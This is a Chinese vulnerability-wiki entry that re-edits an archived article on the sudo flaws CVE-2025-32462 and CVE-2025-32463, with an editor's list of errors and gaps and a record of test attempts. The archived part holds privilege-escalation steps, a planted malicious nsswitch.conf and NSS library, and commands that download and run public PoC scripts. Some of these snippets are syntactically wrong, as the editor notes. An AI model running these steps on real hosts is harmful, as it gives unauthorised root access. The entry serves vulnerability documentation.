









# CVE-2025-32462&CVE-2025-32463

## 2026-10-03 一手资料补核

两者均于2025-06-30公开，不能列作今年首次披露。维护者的[32462公告](https://www.openwall.com/lists/oss-security/2025/06/30/2)和[32463公告](https://www.openwall.com/lists/oss-security/2025/06/30/3)给出的前提不同：前者利用已有的另一主机授权规则，传任意主机字符串不能凭空创建授权；后者可在sudoers许可判断完成前通过用户chroot中的NSS配置进入root执行路径。原文失败记录保留，但 `-R` 未支持、发行版已回补和用户无授权是不同现象，内核版本不能代替sudo版本判断。

两者上游修复为1.9.17p1。原文下载脚本后执行 `check` 的步骤会进入利用脚本，不能命名成只读检测；脚本公开源和操作副作用见[Rich Mirch原研究](https://www.stratascale.com/resource/cve-2025-32463-sudo-chroot-elevation-of-privilege/)。

以下保留早期审阅记录和归档原文；已补证的事实以上述来源为准，原代码、测试值和失败实验未改写。本次未执行PoC，未安装依赖，未以静态核对宣称复现。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：sudo
- 文献类型：Sudo双漏洞与失败测试记录
- 版本、权限及部署边界：32462需sudoers主机范围规则；32463文称1.9.14起chroot在策略评估前，精确修复版本缺失
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. frontmatter只32462而正文大量32463，应分两个主实体
2. 结论需要sudoers授R权限与此前策略评估前触发根因矛盾；Ubuntu旧sudo不支持-R/不受影响与缺权限需区分，失败不证明漏洞鸡肋
3. 示例sudoers把Host_Alias定义塞进权限规则，语法/权限语义不成立；任意malicious_hostname并非已授权主机规则替代值
4. chroot示例未创建etc目录、exploit.c缺失、NSS服务名到libnss路径拼接未交代，不能按片段直接复现
5. Ubuntu表影响20.04+/24.04而修复给22.04，Debian版本字符串不完整；发行版回补和两个CVE适用范围未区分
6. 称自动化检测却直接下载执行利用脚本/check参数未经证明；kali2025命令漏git，内核版本不决定sudo用户态漏洞
7. 保留不同发行版正负实验，但关键版本/错误仅截图，需回源Stratascale和sudo公告

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://stratascale.com/poc/sudo-chwoot.sh>
- 原文参考链接（未重新核验）：<https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 simeon的文章  小兵搞安全   2025-07-02 11:19  
  
- **CVE-2025-32462（主机规则绕过）**  
-h/--host  
 选项未遵循最小权限原则，在非列表场景（如命令执行）中未验证主机规则边界。当 sudoers  
 文件使用 Host  
 或 Host_Alias  
 配置主机级权限时，攻击者可构造恶意主机名绕过访问控制链  
  
。  
- **CVE-2025-32463（Chroot NSS劫持）**  
  
漏洞根因在于 sudo 1.9.14+  
 将 chroot()  
 路径解析提前至 sudoers  
 规则评估前。攻击者在可控目录内植入伪造的 /etc/nsswitch.conf  
，通过 libnss_*.so  
 加载恶意库实现 root shell  
  
### 1.1.1CVE-2025-32462 攻击路径  
  
  
  
触发条件：需满足 sudoers 中存在分主机权限规则（常见于LDAP/SSSD统一策略环境  
### 1.1.2受影响的发行版与版本  
<table><tbody><tr style="height: 33px;"><td data-colwidth="127" width="127" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">发行版</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">受影响版本</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;text-align: left;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">修复版本</span></span></strong></p></td></tr><tr style="height: 33px;"><td data-colwidth="127" width="127" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">Ubuntu</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">20.04+/24.04 LTS</span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">1.9.9-1ubuntu2.5+ (22.04)</span></span><span style="color: rgb(64, 64, 64);background-color: rgb(229, 229, 229);font-size: 12px;"></span></p></td></tr><tr style="height: 33px;"><td data-colwidth="127" width="127" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><strong><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">Debian</span></span></strong></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">Bookworm </span></span></p></td><td data-colwidth="250" width="250" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(64, 64, 64);font-size: 16px;"><span leaf="">1.9.13p3-1+deb12</span></span></p></td></tr></tbody></table>

## 1.2CVE-2025-32463 利用链  

> 排版说明：下方代码框保留归档命令的全部字符和原有断行，仅便于查看与复制。`wget`、`git clone` 后的断行以及 `clone` 的缺失前缀未猜补；这些片段及 sudoers 配置仍有篇首列出的缺损和语义待核项，不能据此视为完整可执行步骤。
### 1.2.1在用户可写目录创建恶意结构  
  

```text
mkdir ./exploit_root  
  
echo 'passwd: ../tmp/libnss_exploit.so.2' > ./exploit_root/etc/nsswitch.conf  
  
gcc -shared -fPIC -o /tmp/libnss_exploit.so.2 exploit.c # 含setreuid(0,0)构造函数  
```

### 1.2.2触发漏洞  
  

```text
sudo -R ./exploit_root /bin/true  # 加载恶意库获取root shell  
```

  
核心缺陷：chroot 环境路径解析与 sudoers 评估时序倒置  
## 1.3 CVE-2025-32462 验证步骤  
  
1.配置漏洞环境（需sudoers含主机规则）  
  

```text
echo 'user1 ALL=(ALL:ALL) Host_Alias=TRUSTED_HOSTS' > /etc/sudoers.d/test  
```

  
2.执行绕过  
  

```text
sudo -h malicious_hostname /bin/bash  # 获取root shell  
```

  
CVE-2025-32463 自动化检测  
  

```text
wget   
https://stratascale.com/poc/sudo-chwoot.sh  
  
chmod +x sudo-chwoot.sh  
  
./sudo-chwoot.sh check  
```

## 1.4实际测试  
### 1.4.1 kali2024版本虚拟机测试  
  
1.查看当前内核版本  
  

```text
uname -ar  
  
cat /proc/version  
```

  
  
  

```text
sudo -V  
```

  
  
  
2.下载poc并执行  
  

```text
git clone   
https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git  
  
cd CVE-2025-32463_chwoot  
  
./sudo-chwoot.sh  
```

  
  
### 1.4.2 kali2025测试失败  
  
1.查看内核版本及sudo版本  
  

```text
cat /proc/version  
  
sudo -V  
```

  
  
  
2.下载并执行poc  
  

```text
 clone   
https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git  
  
cd CVE-2025-32463_chwoot  
  
./sudo-chwoot.sh  
```

  
  
### 1.4.3 ubuntu22版本  
  
1.基本信息  
  
  
  
2.测试poc  
  
  
  
  
  
  
当前账号没有R权限，需要在/etc/sudoers  
 有R权限。  
  

```text
john ALL=(ALL) NOPASSWD: /path/to/woot -R  
```

  
      外面传的很厉害，在kali中测试比较成功，在ubantu2022版本以及真实环境中均未再现。个人感觉有些鸡肋。  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
